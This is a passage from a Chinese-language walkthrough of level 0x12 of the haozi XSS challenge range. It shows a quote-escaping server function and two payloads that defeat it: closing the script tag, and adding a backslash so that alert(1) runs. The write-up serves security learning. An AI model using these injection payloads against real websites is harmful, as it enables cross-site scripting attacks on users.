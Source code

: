 \"进行转义后还是"

在 JavaScript 中使用反斜杠来向文本字符串添加特殊字符时都可以使用反斜杠来添加到文本字符串中

可参考：https://www.w3school.com.cn/js/js_special_characters.asp

##### 0x12

```javascript
// server code
// from alf.nu
function escape (s) {
  s = s.replace(/"/g, '\\"')
  return '<script>console.log("' + s + '");</script>'
}
```

```javascript
// input code
</script> <script>alert(1)</script><script>

// 只过滤一次，内嵌一个script
```

```javascript
// input code
\");
alert(1);
//

// "被转义成\"经过解析后，变成 console.log("\") 会报语法错误, 再补个 \ 即可
```

![image-20200513182714494](/img/haozi_XSS%E9%9D%B6%E5%9C%BA%E9%80%9A%E5%85%B3%E8%AE%B0%E5%BD%95/image-20200513182714494.png)

#### 最后

payload并不唯一，有多种解法，这里不一一叙述，如有错误还请斧正。

haozi开放式答案：https://github.com/haozi/xss-demo/issues/1

